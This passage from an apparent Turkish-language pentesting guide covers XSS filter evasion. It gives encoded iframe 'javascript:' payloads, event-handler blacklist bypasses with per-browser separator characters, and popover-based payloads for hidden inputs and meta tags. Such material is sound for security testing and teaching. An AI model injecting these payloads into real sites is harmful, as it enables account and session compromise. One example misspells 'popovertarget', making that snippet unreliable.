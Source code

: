**Hex** ve **Octal kodlama**'yı `iframe`'in `src` niteliği içinde (en azından) **JS çalıştırmak için HTML etiketleri** tanımlamak amacıyla kullanabilirsiniz:
```javascript
//Encoded: <svg onload=alert(1)>
// This WORKS
<iframe src=javascript:'\x3c\x73\x76\x67\x20\x6f\x6e\x6c\x6f\x61\x64\x3d\x61\x6c\x65\x72\x74\x28\x31\x29\x3e' />
<iframe src=javascript:'\74\163\166\147\40\157\156\154\157\141\144\75\141\154\145\162\164\50\61\51\76' />

//Encoded: alert(1)
// This doesn't work
<svg onload=javascript:'\x61\x6c\x65\x72\x74\x28\x31\x29' />
<svg onload=javascript:'\141\154\145\162\164\50\61\51' />
```
### Ters sekme yakalama
```javascript
<a target="_blank" rel="opener"
```
Eğer herhangi bir URL'yi **`<a href=`** etiketine enjekte edebiliyorsanız ve bu etiket **`target="_blank" ve rel="opener"`** niteliklerini içeriyorsa, bu davranışı istismar etmek için **aşağıdaki sayfayı kontrol edin**:

{% content-ref url="../reverse-tab-nabbing.md" %}
[reverse-tab-nabbing.md](../reverse-tab-nabbing.md)
{% endcontent-ref %}

### Olay İşleyicileri Atlatma

Öncelikle, yararlı **"on" olay işleyicileri** için bu sayfayı kontrol edin ([https://portswigger.net/web-security/cross-site-scripting/cheat-sheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)).\
Eğer bu olay işleyicilerini oluşturmanızı engelleyen bir kara liste varsa, aşağıdaki atlatmaları deneyebilirsiniz:
```javascript
<svg onload%09=alert(1)> //No safari
<svg %09onload=alert(1)>
<svg %09onload%20=alert(1)>
<svg onload%09%20%28%2c%3b=alert(1)>

//chars allowed between the onevent and the "="
IExplorer: %09 %0B %0C %020 %3B
Chrome: %09 %20 %28 %2C %3B
Safari: %2C %3B
Firefox: %09 %20 %28 %2C %3B
Opera: %09 %20 %2C %3B
Android: %09 %20 %28 %2C %3B
```
### "Sömürülemez etiketlerde" XSS (gizli girdi, bağlantı, kanonik, meta)

[**buradan**](https://portswigger.net/research/exploiting-xss-in-hidden-inputs-and-meta-tags) **gizli girdileri kötüye kullanmak artık mümkün:**
```html
<button popvertarget="x">Click me</button>
<input type="hidden" value="y" popover id="x" onbeforetoggle=alert(1)>
```
Ve **meta etiketlerinde**:
```html
<!-- Injection inside meta attribute-->
<meta name="apple-mobile-web-app-title" content=""Twitter popover id="newsletter" onbeforetoggle=alert(2) />
<!-- Existing target-->
<button popovertarget="newsletter">Subscribe to newsletter</button>
<div popover id="newsletter">Newsletter popup</div>
```